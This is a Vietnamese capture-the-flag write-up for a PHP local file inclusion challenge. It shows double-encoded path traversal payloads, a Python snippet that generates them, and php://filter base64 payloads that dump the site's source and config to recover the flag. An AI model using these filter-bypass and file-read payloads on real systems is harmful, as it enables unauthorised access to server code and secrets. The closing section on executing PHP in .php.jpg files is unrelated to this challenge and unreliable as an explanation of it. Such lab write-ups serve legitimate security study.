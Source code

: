 # Local File Inclusion - Double encoding

**30 Points**  

Include can be dangerous.

**Statement**
Find the validation password in the source files of the website.

## Analysis:

Xác định source (nơi ta có thể chèn input) là tại tham số `page` của URL. Thử payload `../` thì bị báo **"Attack detected."**. Thử chuyển qua URL-encoding thành `%2e` (.) và `%2f` (/) cũng bị detected nốt. Bộ lọc bên server là:

Filter: `.` `/` `%2f` `%2e`

Tên bài là "Double encoding" cho ta gợi ý nên bypass filter bằng cách _Double-encode_ payload. Ví dụ như hồi nãy bị filter `%2e` thì mình sẽ Url-encode dấu `%` thành `%25` (%). Vậy ta có `%252e` sẽ là dấu `.`. Thử payload:

```
%252e
```

![image](https://user-images.githubusercontent.com/48288606/163758956-25024a41-a5d4-414d-ade6-ffd390e827ab.png)

Vậy là ta đã chèn payload vào thành công, chỉ vướng lỗi logic (ta sẽ xác định sau). Mình viết một snippet python nho nhỏ để tạo double-encoding:

```python
string = "../" # This string would be double-encoded.
payload = ""
filter = ['.','/']

for c in string:
    if c in filter:
        payload += "%25" + hex(ord(c))[2:]
    else:
        payload += c

print(payload)
```

Bây giờ mình sẽ thử payload `../` và phân tích. Double-encoded payload: `%252e%252e%252f`. 

![image](https://user-images.githubusercontent.com/48288606/163759491-500a5786-9ff0-4fc7-b2af-18c18f22e5f9.png)

Bên server dùng hàm [include()](https://www.php.net/manual/en/function.include.php) để lấy file, hàm này được xem là một hàm rủi ro nếu không có thao tác xử lý dữ liệu truyền vào như parameter `page`. Ngoài ra, đường dẫn mà chúng ta yêu cầu tài nguyên `../.inc.php` bị ra khỏi vùng cho phép `/tmp`. Đồng thời ta nhận ra chuỗi của chúng ta được concat với `.inc.php`. Vậy bình thường ta để giá trị `contact` thì file được truy vấn sẽ là `contact.inc.php`

Với việc không liệt kê file trong kết quả trả về, ta không thể dò tìm file ta mong muốn. Đối với dạng LFI có một kỹ thuật là [PHP wrapper](https://www.php.net/manual/en/wrappers.php). Wrappers là một code bổ sung cho một stream để xử lý các giao thức / mã hóa cụ thể. Ví dụ: wrappers `http` biết cách dịch một URL thành một **HTTP** request cho một file trên máy chủ từ xa. Khi làm việc với wrapper vì luồng stream được xử lý và được read ra nên ouput sẽ là nội dung của một file nào đó (do mình tùy chọn). Tham khảo [thêm](https://www.php.net/manual/en/intro.stream.php#:~:text=Introduction%20%C2%B6&text=A%20wrapper%20is%20additional%20code,file%20on%20a%20remote%20server.)

Áp dụng kỹ thuật này vào payload. Sử dụng `php://filter/resource=contact` với trang **contact**. Payload: 

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=contact
```

Output mã nguồn của file của chúng sẽ bị mã hóa base64 vì chúng ta chọn [Conversion Filters](https://www.php.net/manual/en/filters.convert.php) là `convert.base64-encode` (tương đương với đưa toàn bộ stream content qua hàm **base64_encode()**) 

![image](https://user-images.githubusercontent.com/48288606/163790457-3b104c42-b13c-4c49-9e2f-2a2361f9f33d.png)

Decode base64 bằng lệnh `base64 -d` (Linux):

```
echo "<string-to-be-decoded>" | base64 -d 
```

Chúng ta có source code PHP:

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Contact</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact" class="active">Contact</a>
    </nav>
    <div id="main">
      <h2>Contact</h2>
      <p>If you got to talk to me, don't hesitate to send me an email <a href="mailto:<?= $conf['contact']['mail'] ?>">here</a>.</p>
      <p>You can also phone me on this number : <?= $conf['contact']['phone'] ?></p>
    </div>
  </body>
</html>
```

Vậy chúng ta chỉ có thể đọc file đã biết tên và đường dẫn cụ thể. Theo codebase ở trên thì ta thấy có file `conf.inc.php`. Vào đây check nội dung file, dùng `php://filter/convert.base64-encode/resource=conf`. Payload:

```
php:%252f%252ffilter%252fconvert%252ebase64-encode%252fresource=conf
```

![image](https://user-images.githubusercontent.com/48288606/163792362-b86c7732-89f5-46e8-a489-a056fe9346ed.png)

Decode tương tự bằng `base64` command:

```php
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];
```

Ta có được flag trong source code.

## Explanation - How does it work? (Bonus):

Hồi thời điểm mình làm mình chưa hiểu tại sao bên server lại thực thi được code PHP với double-extension file `.php.jpg`. Sau khi search một hồi thì mình đã tìm ra câu trả lời, sau đây là giải thích:

Nguồn: https://stackoverflow.com/questions/8025236/is-it-possible-to-execute-php-with-extension-file-php-jpg

Đại khái, trong _PHP trong khoảng phiên bản dưới 6.0_, trong file cấu hình `.htacess` chúng ta có thể cho phép bất kỳ một file định dạng nào `html`, `htm`, `jpg`, ... thực thi code PHP bên trong nó. Bên server của challenge có thể được cấu hình file `.htaccess` như sau:

`AddType application/x-httpd-php .jpg`

Hoặc:

`AddType application/x-httpd-php .php.jpg`

*Có lẽ server cố tình làm vậy để tạo challenge thôi :>, hiếm ai để một file định dạng khác mà có thể thực thi với PHP code format. Chal này chỉ xuất hiện ở phiên bản cũ.

Flag: **Th1sIsTh3Fl4g!**
